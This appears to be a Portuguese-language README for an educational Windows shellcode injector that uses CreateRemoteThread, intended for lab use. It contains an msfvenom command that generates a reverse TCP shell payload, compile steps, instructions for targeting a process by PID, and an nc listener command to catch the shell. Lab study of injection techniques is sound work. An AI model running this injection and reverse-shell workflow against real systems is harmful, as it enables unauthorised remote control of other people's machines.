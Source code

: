 # 💉 Remote Shellcode Injector (Windows)

Este é um código **básico e educacional** para realizar **injeção de shellcode em um processo remoto no Windows** utilizando a função `CreateRemoteThread`.

> ⚠️ **Aviso:** Este projeto **não possui técnicas de evasão de antivírus, EDR ou outros mecanismos de defesa**. É voltado exclusivamente para fins de **teste em ambientes controlados**, como laboratórios de malware analysis, CTFs, máquinas virtuais isoladas ou para aprendizado.

---

## 🧠 Objetivo

Demonstrar o funcionamento da técnica de injeção clássica via:

- `OpenProcess`
- `VirtualAllocEx`
- `WriteProcessMemory`
- `CreateRemoteThread`

Este código injeta um shellcode pré-definido (por padrão, um **reverse shell TCP**) em um processo remoto identificado por seu **PID**.

---

## ⚙️ Uso

🧪 Requisitos
Sistema: Windows (x64)
Permissões de administrador (recomendado)
Ambiente controlado (máquina virtual, laboratório)


## Gere o shellcode no msfvenom --> msfvenom -p windows/x64/shell_reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA -f c
 
Substitua o conteúdo da variável payload[] no código-fonte com o novo shellcode.

## 🏗️ Compilação

Você pode compilar o código com o `gcc` do MinGW (modo 64 bits):

`x86_64-w64-mingw32-gcc injector.c -o injector.exe`


🧪 Processo de Teste

Para testar a injeção de shellcode com segurança, você pode usar o seguinte programa simples como alvo:

Código do processo de teste (dummy_process.c).

## COMPILE O CODIGO 

`x86_64-w64-mingw32-gcc dummy_process.c -o dummy_process.exe`

Execute o código : dummy_process.exe

Em outro terminal use : `tasklist | findstr dummy_process.exe`

--> Pegue esse PID e execute o código code.exe <PID>

### !! IMPORTANTE 
-> Não se esqueça de abrir o shell na sua maquina . ex: nc -vlp 8080 


